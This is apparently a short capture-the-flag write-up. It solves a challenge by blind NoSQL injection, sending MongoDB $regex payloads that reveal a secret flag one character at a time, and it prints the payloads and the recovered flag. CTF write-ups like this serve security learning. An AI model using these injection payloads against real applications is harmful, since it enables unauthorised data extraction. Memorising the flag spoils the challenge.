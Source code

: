# Solution

Not sure what other method but I use blind-NoSQL  

`flag: {$regex: "^flag{"}` is success so add one by one character  

`flag: {$regex: "^flag{4"}`  
`flag: {$regex: "^flag{4c"}`  
...
`flag: {$regex: "^flag{4cb8649d9ecb0ec59d1784263602e686}"}`  

Flag:`flag{4cb8649d9ecb0ec59d1784263602e686}`

Solved by: zeqzoq
